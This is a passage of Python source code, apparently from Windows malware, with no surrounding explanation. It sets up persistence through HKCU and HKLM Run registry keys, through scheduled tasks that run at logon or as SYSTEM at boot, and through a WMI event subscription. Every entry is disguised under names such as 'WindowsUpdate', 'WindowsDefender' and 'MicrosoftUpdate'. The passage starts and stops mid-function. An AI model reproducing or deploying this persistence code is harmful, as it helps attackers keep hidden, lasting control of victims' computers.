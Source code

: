 ```python
                              r'Software\Microsoft\Windows\CurrentVersion\Run',
                              0, winreg.KEY_SET_VALUE)
        winreg.SetValueEx(key, 'WindowsUpdate', 0, 
                           winreg.REG_SZ, sys.executable)
        winreg.CloseKey(key)
        
        # If admin, also add to HKLM
        if is_admin():
            key = winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE,
                                  r'Software\Microsoft\Windows\CurrentVersion\Run',
                                  0, winreg.KEY_SET_VALUE)
            winreg.SetValueEx(key, 'WindowsDefender', 0,
                               winreg.REG_SZ, sys.executable)
            winreg.CloseKey(key)
        
        return True
    except Exception as e:
        return False

def scheduled_task_persistence():
    """Create scheduled task"""
    subprocess.run([
        'schtasks', '/create',
        '/tn', 'WindowsUpdate',
        '/tr', sys.executable,
        '/sc', 'onlogon',  # Run on user logon
        '/f'  # Force
    ], capture_output=True)
    
    if is_admin():
        # Create system-level task
        subprocess.run([
            'schtasks', '/create',
            '/tn', 'MicrosoftUpdate',
            '/tr', sys.executable,
            '/sc', 'onstart',  # Run on system boot
            '/ru', 'SYSTEM',
            '/rl', 'HIGHEST',
            '/f'
        ], capture_output=True)
    
    return True

def wmi_event_persistence():
    """Create WMI event subscription"""
    wmi_script = f'''
    $Filter = Set-WmiInstance -Class __EventFilter -Namespace root\\subscription -Arguments @{{
        Name = "SystemBootFilter"
        EventNamespace = "root\\cimv2"
        QueryLanguage = "WQL"
        Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60"
    }}
    
    $Consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace root\\subscription -Arguments @{{
        Name = "SystemBootConsumer"
        CommandLineTemplate = "{sys.executable}"
    }}
    
    Set-WmiInstance -Class __FilterToConsumerBinding -Namespace root\\subscription -Arguments @{{
        Filter = $Filter
        Consumer = $Consumer
    }}
```